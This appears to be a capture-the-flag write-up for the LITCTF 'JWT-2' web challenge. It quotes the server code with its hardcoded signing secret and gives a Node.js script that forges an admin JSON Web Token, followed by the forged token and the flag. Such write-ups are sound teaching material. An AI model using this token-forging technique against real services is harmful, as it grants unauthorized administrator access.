 ```yaml
---
layout: post
title:  "JWT-2"
description: Further exploiting JSON Web Tokens
date:   2024-08-14
tags: ["Web Exploitation", "LITCTF", "JSON"]
category: [CTF,LITCTF]
---
```




# Challenge Info
`its like jwt-1 but this one is harder.
URL: http://litctf.org:31777/`

attached: [index.ts](https://drive.google.com/uc?export=download&id=18gNp6DphcZBI5UmGjKsXhCkZvF1aIB6F&name=index.ts)

![JWT-2](/assets/img/JWT-2/challenge.png)


## Preface
While this *is* a separate challenge, its fundamentals are heavily derived from the [first](/posts/jwt1) JWT challenge, which I heavily recommend you read first.


## Trying the first solution
Since this is a continuation of the **first** JWT challenge, I figured I'd try the same solution. A quick recap on how I beat the first one:

1. Register an account on the given site
2. Use Burpsuite intercept to capture the JWT associated with our account
3. Use [jwt.io](https://jwt.io) to read the contents of our JWT
4. Modify `admin` so that it equals to `true`
5. Access the "GET FLAG" button with our **new** JWT and acquire flag

For this challenge, while I **was** able to capture the JWT token and modify it to have `admin` set to `true`, upon actually using it, I was greeted with this:

![unauthorized](/assets/img/JWT-2/unauthorized.png)

## Inspecting the attached TypeScript file
By now, I realized this challenge wouldn't be as simple as the last one, so I decided to skim through the attached TypeScript file, which I'll leave down below:

```ts
import express from "express";
import cookieParser from "cookie-parser";
import path from "path";
import fs from "fs";
import crypto from "crypto";

const accounts: [string, string][] = [];

const jwtSecret = "xook";
const jwtHeader = Buffer.from(
  JSON.stringify({ alg: "HS256", typ: "JWT" }),
  "utf-8"
)
  .toString("base64")
  .replace(/=/g, "");

const sign = (payload: object) => {
  const jwtPayload = Buffer.from(JSON.stringify(payload), "utf-8")
    .toString("base64")
    .replace(/=/g, "");
    const signature = crypto.createHmac('sha256', jwtSecret).update(jwtHeader + '.' + jwtPayload).digest('base64').replace(/=/g, '');
  return jwtHeader + "." + jwtPayload + "." + signature;

}

const app = express();

const port = process.env.PORT || 3000;

app.listen(port, () =>
  console.log("server up on http://localhost:" + port.toString())
);

app.use(cookieParser());
app.use(express.urlencoded({ extended: true }));

app.use(express.static(path.join(__dirname, "site")));

app.get("/flag", (req, res) => {
  if (!req.cookies.token) {
    console.log('no auth')
    return res.status(403).send("Unauthorized");
  }

  try {
    const token = req.cookies.token;
    // split up token
    const [header, payload, signature] = token.split(".");
    if (!header || !payload || !signature) {
      return res.status(403).send("Unauthorized");
    }
    Buffer.from(header, "base64").toString();
    // decode payload
    const decodedPayload = Buffer.from(payload, "base64").toString();
    // parse payload
```
Just to highlight what this code does:

`const [header, payload, signature] = token.split(".");`
- splits the JWT token into its three parts; header, payload, and signature, and the `.` acts as a delimiter.

`if (!req.cookies.token)`
- checks if the token is missing, and responds with `403 Unauthorized` if it is.

`Buffer.from(header,"base64").toString()` `Buffer.from(payload,"base64").toString()`
- The header and payload are decoded from base64 to their original string format.


However, what's really making us hit our head is the following:
```js
const sign = (payload: object) => {
  const jwtPayload = Buffer.from(JSON.stringify(payload), "utf-8")
    .toString("base64")
    .replace(/=/g, "");
    const signature = crypto.createHmac('sha256', jwtSecret).update(jwtHeader + '.' + jwtPayload).digest('base64').replace(/=/g, '');
  return jwtHeader + "." + jwtPayload + "." + signature;
```

This removes the `=` characters from both the base64-encoded payload and signature. This is normal in JWTs though, and doesn't affect the token's validity. The main issue here isn't the removal of padding, but making sure that the token **we** craft adheres to this format.

## The Solution

The payload that I came up with:

```js

const crypto = require('crypto');

const jwtSecret = "xook";
const jwtHeader = Buffer.from(
  JSON.stringify({ alg: "HS256", typ: "JWT" }),
  "utf-8"
)
  .toString("base64")
  .replace(/=/g, "");

const sign = (payload) => {
  const jwtPayload = Buffer.from(JSON.stringify(payload), "utf-8")
    .toString("base64")
    .replace(/=/g, "");
  const signature = crypto
    .createHmac("sha256", jwtSecret)
    .update(jwtHeader + "." + jwtPayload)
    .digest("base64")
    .replace(/=/g, "");
  return jwtHeader + "." + jwtPayload + "." + signature;
};

const payload = { name: "your_username", admin: true };
const forgedToken = sign(payload);
console.log(forgedToken); // This is the token you will use.
```

This payload creates a token using the `xook` secret, modifies `admin` to `true`, and removes all padding (`=` characters).

Then, I replaced the old token in Burpsuite intercept with the new one: `eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJuYW1lIjoieW91cl91c2VybmFtZSIsImFkbWluIjp0cnVlfQ.xwxnk5ogziOC8xlMNuolHBuQDbefnLA9rATCeS7fS+s`, and hit "forward".

![flag](/assets/img/JWT-2/flag.png)

flag: `LITCTF{v3rifyed_thI3_Tlme_1re4DV9}`
